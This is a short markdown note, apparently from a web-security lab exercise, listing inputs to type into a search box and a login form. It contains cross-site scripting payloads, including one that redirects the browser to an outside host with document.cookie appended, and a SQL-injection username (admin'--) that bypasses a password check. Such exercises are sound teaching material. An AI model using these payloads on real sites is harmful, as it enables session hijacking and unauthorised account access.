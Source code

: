 
## Insert HTML input

1. Search: `test` of `test <b>hello</b>`

2. Search: `<script>alert("Your private session cookie: " + document.cookie + "\n is being sent to malicious.com");</script>`

3. Search: `<script>window.location='https://www.han.nl/?cookie=' + document.cookie</script>`

## Bypass password check (SQL-injection)

1. Login as admin without password knowledge  
Username: `admin'--  `  
Password: `ijesdhuieashfuiehf`